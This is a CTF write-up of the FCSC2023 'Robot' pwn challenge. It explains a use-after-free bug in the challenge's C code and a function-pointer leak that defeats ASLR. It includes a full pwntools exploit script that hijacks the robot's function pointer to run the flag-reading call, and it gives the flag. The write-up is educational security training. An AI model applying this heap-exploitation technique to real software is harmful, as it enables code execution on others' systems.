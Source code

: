 ```yaml
---
title: CTFs | FCSC2023 | Robot
author: Kaiba_404
date: 2023-05-01
categories: [CTFs, FCSC2023, Robot]
tags: [CTF, FCSC2023, pwn]
permalink: /CTFs/FCSC2023/pwn/Robot
---
```


# Robot

![image](https://raw.githubusercontent.com/CongKhaiNGUYEN/congkhainguyen.github.io/main/_posts/CTFs/FCSC2023/pwn/img/chall_robot.png)

The challenge give us two file: a source code and an binary file

- [robot](files/robot)
- [robot.c](files/robot.c)

The challenge tell us that this binary is protected by all classical protections like ASLR, W^X,...

![image](https://raw.githubusercontent.com/CongKhaiNGUYEN/congkhainguyen.github.io/main/_posts/CTFs/FCSC2023/pwn/img/binary_protection.png)

I decided to read the source code to find exploitable vulnerabilities. While analyzing the source code, I found a fascinating function called the 'admin', which is shown below. 

```c

void admin(char *pwd)
{
    unsigned char hash[SHA256_DIGEST_LENGTH];
    char    result[65];

    SHA256((const unsigned char *) pwd, strlen(pwd), hash);

    for (int i = 0; i < SHA256_DIGEST_LENGTH; i++) {
        sprintf(result + (i * 2), "%02x", hash[i]);
    }

    if (strcmp(result, encrypted) == 0) {
        execl("/bin/cat", "/bin/cat", "flag.txt", NULL);
        perror("execl");
        exit(2);
    } else {
        puts("ERROR: wrong password!");
    }
}

```


The 'admin' function is responsible for reading the flag. However, we need the admin's password to obtain the flag, which we don't have (of course!). As an alternative, we can attempt to directly jump into the code at the address of `execl("/bin/cat", "/bin/cat", "flag.txt", NULL);`. However, this is not a straightforward task. According to the source code, the program is protected against buffer overflow and string formatting vulnerabilities. All inputs are rigorously checked, and the print statements are flawlessly formatted to prevent any potential exploitation.

However, it seems that the programmer for this robot forgot something. Consider the robot's functions. Their code was normal until I noticed something weird

```c
case '3':
    if (robot) {
        printf ("Vous allumez le robot. ");
        robot->move(robot);
        printf ("De la fumée commence à apparaître, puis des étincelles... %s prend feu !!!\n", robot->name);
        printf ("%s est complètement détruit\n", robot->name);
        free (robot);
    } else {
        puts ("Vous n'avez pas de robot !");
    }
    break;
```

Calling `free(robot)` without setting `robot=NULL` creates a vulnerability that can be exploited using a ***Use-After-Free (UAF)*** attack. To take advantage of this critical vulnerability, we will examine the structure of the robot and search for a way to exploit it.

```c
struct Robot {
    char name[16];
    void (*makeNoise)();
    void (*move)();
};

struct RobotUserGuide {
    char guide[32];
};

```

We can assume that the size of the robot struct is `16+8+8 = 32`, since the two function pointers always have a size of 8. Additionally, the struct RobotUserGuide has a size of 32 (perhaps this is a hint?). Continuing to examine the source code, I noticed that the struct `RobotUserGuide` is invoked in the following section:

```c
case '4':
    userGuide = malloc (sizeof (struct RobotUserGuide));
    printf ("Vous commencez à rédiger le mode d'emploi...\n> ");
    fgets (userGuide->guide, 32, stdin);
    break;
```

Voila, we can modify the parameters of struct robot through using struct RobotUserGuide. I proceed to test my conjecture:

![image](https://github.com/CongKhaiNGUYEN/congkhainguyen.github.io/blob/main/_posts/CTFs/FCSC2023/pwn/img/find_the_vuln.png)

There are some weird characters appear when i type 5 and enter. These are the pointers to the functions as I analyzed above. At this point I conclude that this binary can be exploited because the programmer did not assign `robot=NULL` after free it.


## Exploitation

To exploit the vulnerability, we can follow these steps:
1. Create a robot with any name.
2. Play with the robot to call the free function on the robot.
3. Create a userGuide with a character length less than 16, which ensures that the address of the bleep function is not overwritten.
4. Request the program to display the userGuide screen, and obtain the address of the bleep function. This address will enable us to find the command to read the flag.
5. After obtaining the address of the `bleep` function, we can continue interacting with the robot and repeatedly call the free function. This will help the function pointer to eventually point to the address where we want the next action.
6.  Next, we can attempt to overwrite the 17-24th byte in the userGuide (which is pointed to by the function pointer of the robot struct) with the address of `execl("/bin/cat", "/bin/cat", "flag.txt", NULL);`
7.  Finally, by using the `le faire paler`, we can trigger the exploit and obtain the flag.

Here is my full exploit code:


```python
from pwn import *

# p = process("./robot")
p=remote("challenges.france-cybersecurity-challenge.fr",2101)

msg = p.recvuntil(b'Quitter')

p.sendline(b'1')
msg = p.recvuntil(b'l\'appelez ?')

p.sendline(b'qwerty')
msg = p.recvuntil(b'Quitter')

p.sendline(b'3')
msg = p.recvuntil(b'Quitter')



p.sendline(b'4')
msg = p.recvuntil(b'le mode d\'emploi...')
p.sendline(b'0123456789')

p.sendline(b'5')

msg = p.recvuntil(b'Quitter')
msg = p.recvuntil(b'Que faites-vous ?')
print(msg)
p.recv()
leak_code = msg[19:35]
bleep_p64 = msg[19:27]
bleep_u64 = u64(bleep_p64)
log.success(f'[LEAK] {hex(bleep_u64)}')
cat_addr = bleep_u64 + 0x1f3
print(hex(cat_addr))
p.sendline(b'3')
new_msg = p.recvuntil(b'Quitter')


p.sendline(b'4')
msg = p.recvuntil(b'le mode d\'emploi...')
p.sendline(b'A'*16+p64(cat_addr))


p.sendline(b'5')

newmsg = p.recvuntil(b'Quitter')
newmsg = p.recvuntil(b'Que faites-vous ?')


p.sendline(b'2')
# @admin- @bleep = 14e
# read_pass - @bleep = 1f3
p.interactive()

```

Result:

![robot_writeup](https://user-images.githubusercontent.com/61443497/235506834-74e9e108-274d-404b-81ff-acf5c4911048.png)

FLAG: `FCSC{136e057aa66dd6d6b772cae51260121f65973ff2045ec812ad597c9060a6a18d}`
